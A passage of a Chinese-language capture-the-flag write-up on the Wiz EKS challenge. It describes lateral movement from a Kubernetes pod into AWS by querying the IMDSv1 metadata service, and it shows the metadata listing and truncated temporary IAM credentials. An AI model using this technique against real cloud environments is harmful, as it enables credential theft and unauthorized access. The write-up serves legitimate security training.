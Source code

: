### 滥用IMDSv1

此处联想到，ECR是AWS的云服务，要访问AWS的云服务资源，需要对应的云凭据。提示告诉我们，当前环境处于EKS pod中。从EKS横向移动至AWS云服务中，可以尝试以下几种方法：

1.  在集群环境中寻找云凭据，包括敏感文件、环境变量等
    
2.  有可能利用元数据服务窃取临时凭据，从而访问AWS云服务
    

使用第一种方法，并未在环境变量以及文件系统中检测到云凭据；尝试访问AWS元数据服务，发现成功返回一些信息：

```perl
root@wiz-eks-challenge:~
ami-id
ami-launch-index
ami-manifest-path
autoscaling/
block-device-mapping/
events/
hostname
iam/
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
reservation-id
security-groups
services/
system
```

可以敏锐地发现其iam接口，继续深入挖掘，获取到临时凭据：

我们可以使用它来获取 IAM 实例凭证：

```perl
root@wiz-eks-challenge:~
{
  "AccessKeyId": "ASIA2[...]E",
  "Expiration": "2023-11-02 15:46:13+00:00",
  "SecretAccessKey": "zcoLW[...]Ds",
  "SessionToken": "FwoG[...]"
}
```

我们不知道这个角色有什么 IAM 权限，但猜测它有一些权限来拉取我们看到的 pod 中引用的 ECR 镜像。  
